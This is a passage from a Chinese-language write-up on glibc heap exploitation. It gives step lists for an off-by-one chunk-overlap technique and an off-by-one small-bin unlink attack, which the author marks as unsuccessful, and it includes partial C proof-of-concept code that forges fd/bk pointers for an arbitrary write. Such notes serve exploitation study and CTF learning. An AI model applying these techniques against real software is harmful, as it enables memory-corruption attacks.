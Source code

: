 布局堆块结构如ABC所示

1. off-by-one覆盖B，目的是覆盖掉B的inuse位
2. free B
3. malloc b1,malloc b2
4. free C
5. free b1
6. malloc B
7. overlapping b2

这种利用方式成功的原因有两点:

通过prev_chunk()宏查找前块时没有对size域进行验证

当B块的size域被伪造后，下一块的pre_size域无法得到更新。



## off-by-one small bin  （未成功）

这种方法是要触发unlink宏，因此需要一个指向堆上的指针来绕过fd和bk链表的check。

需要在A块上构造一个伪堆结构，然后覆盖B的pre_size域和inuse域。这样当我们free B时，就会触发unlink宏导致指向堆上的指针ptr的值被改成&ptr-0xC(x64下为&ptr-0x18)。通过这个特点，我们可以覆写ptr指针，如果条件允许的话，几乎可以造成无限次的write-anything-anywhere。

1. 在A块中构造伪small bin结构，并且修改B块的prev_size域和inuse域。
2. free B块
3. ptr指针被改为&ptr-0xC

![img-3](off-by-one-1/img-3.png)

```c
void *ptr;
int main(void){
    int prev_size,size,fd,bk;
    void *p1,*p2;
    char buf[253]="";
  
    p1=malloc(252);
    p2=malloc(252);
  
    ptr=p1;
    prev_size=0;
    size=249;
    fd=(int)(&ptr)-0xC;
    bk=(int)(&ptr)-0x8;
    
    memset(buf,'c',253);
    memcpy(buf,&prev_size,4);
    memcpy(buf+4,&size,4);
    memcpy(buf+8,&fd,4);
    memcpy(buf+12,&bk,4);

    size=248;
    memcpy(&buf[248],&size,4);
    
    buf[252]='x00';
    
    memcpy(p1,buf,253);
    
```